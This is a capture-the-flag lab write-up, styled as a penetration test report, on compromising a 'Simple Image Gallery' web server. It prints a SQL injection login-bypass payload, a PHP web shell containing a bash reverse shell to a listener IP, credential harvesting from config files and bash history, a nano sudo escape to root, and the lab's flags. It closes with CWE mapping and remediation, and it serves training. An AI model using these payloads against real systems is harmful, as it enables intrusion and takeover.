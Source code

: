 1. Executive Summary
A comprehensive penetration test was conducted on a target machine hosting a "Simple Image Gallery" web application. The assessment revealed critical vulnerabilities, including an SQL Injection authentication bypass and insecure file upload mechanisms, leading to initial access. Further enumeration led to the discovery of plaintext database credentials. Privilege escalation was possible by leveraging a user's bash history and a misconfigured sudo permission, ultimately granting full root access to the system. This report documents the methodology, findings, and recommendations.

2. Reconnaissance & Enumeration
The engagement began with service enumeration using Nmap to identify open ports and running services.

Command Executed:

bash
nmap -sC -sV 10.201.34.93
Findings:

text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Simple Image Gallery System
|_http-server-header: Apache/2.4.41 (Ubuntu)
Analysis: Three services were identified. While port 80 hosted a default Apache page, port 8080 was running the "Simple Image Gallery System" CMS, which was selected as the primary attack vector.

3. Initial Foothold: Web Application Exploitation
3.1. Authentication Bypass via SQL Injection
The login form on the application was tested for SQL Injection vulnerabilities.

Payload Used:
In the username field: ' OR 1=1 -- -

Result: The payload successfully bypassed authentication, granting access to the administrative dashboard.

3.2. Gaining Remote Code Execution (RCE)
To establish a persistent foothold, a PHP web shell was uploaded to the server. A reverse shell script was created to connect back to my listener.

Contents of shell.php:

php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.201.85.239/1234 0>&1'");
?>
Listener Started on AttackBox:

bash
nc -lvnp 1234
The shell was activated by navigating to http://10.201.34.93:8080/gallery/shell.php in the browser. A connection was received, and an interactive shell was upgraded using:

bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Result: Access was gained as the www-data user.

4. Post-Exploitation & Lateral Movement
4.1. Database Credential Discovery
File system enumeration revealed a configuration file containing database credentials.

File Analyzed: /var/www/html/gallery/initialize.php

Credentials Found:

Username: gallery_user

Password: passw0rd321

Database: gallery_db

4.2. Database Interaction
These credentials were used to interact with the MySQL database directly from the shell.

Command Executed:

bash
mysql -u gallery_user -p gallery_db
SQL Query:

sql
SELECT * FROM users;
Database Output:

text
+----+--------------+----------+----------+----------------------------------+------------------------------+
| id | firstname    | lastname | username | password                         | avatar                       |
+----+--------------+----------+----------+----------------------------------+------------------------------+
|  1 | Adminstrator | Admin    | admin    | 73d999b4978d1780b23cd63495b81bcc | uploads/1757022240_shell.php |
+----+--------------+----------+----------+----------------------------------+------------------------------+
Analysis: The database contained an administrative user with a password hash and a reference to an uploaded PHP shell, confirming the initial attack path.

5. Privilege Escalation to User mike
Attempts to switch to the user mike were initially unsuccessful with the database password. The user's .bash_history file was inspected and found to contain a cleartext password.

Command Executed:

bash
cat /home/mike/.bash_history
Password Found: b3stpassw0rdbr0xx

This password was used to switch to the mike user and retrieve the user flag.

Commands Executed:

bash
su mike
 Password: b3stpassw0rdbr0xx
cat /home/mike/user.txt
User Flag: THM{af05cd30bfed67849efd546ef}

6. Privilege Escalation to Root
The sudo permissions for user mike were checked, revealing a critical misconfiguration.

Command Executed:

bash
sudo -l
Output:

text
User mike may run the following commands on ip-10-201-34-93:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
The /opt/rootkit.sh script was analyzed:

Contents of /opt/rootkit.sh:

bash
#!/bin/bash
read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
The script's read option executed the nano text editor as root. Following the GTFOBins methodology for nano, a root shell was spawned.

Exploitation Steps:

Command: sudo /bin/bash /opt/rootkit.sh

Option Selected: read (This opens /root/report.txt in nano as root)

In Nano:

Pressed Ctrl+R (Read File)

Pressed Ctrl+X (Exit prompt)

Entered the command: reset; sh 1>&0 2>&0

Pressed Enter

Result: A root shell was successfully spawned.

Root Flag Retrieval:

bash
cat /root/root.txt
Root Flag: THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}

7. Conclusion & Recommendations
7.1. Summary of Vulnerabilities

SQL Injection (CWE-89): In the login form, allowing authentication bypass.

Unrestricted File Upload (CWE-434): Allowing the upload and execution of a malicious PHP shell.

Cleartext Storage of Sensitive Information (CWE-312): Database credentials stored in a plaintext PHP file.

Incorrect Privilege Assignment (CWE-266): The sudo configuration allowed a user to run a script as root without a password, which contained an editor (nano) that could be exploited to break out into a shell.

7.2. Remediation Strategies

Input Validation: Use parameterized queries (prepared statements) to prevent SQL Injection.

File Upload Hardening: Implement strict whitelists for allowed file extensions, store uploaded files outside the web root, or use a dedicated storage solution.

Secrets Management: Remove hardcoded credentials from source code. Utilize environment variables or a secure secrets management vault.

Principle of Least Privilege: Audit and tighten sudo permissions. Avoid granting NOPASSWD access to commands that can spawn shells or editors. Replace interactive editors like nano with non-interactive commands in scripts where possible.

This test demonstrates how a chain of vulnerabilities can be exploited to compromise a system fully. Addressing any single link in this chain would have significantly increased the difficulty of the attack.
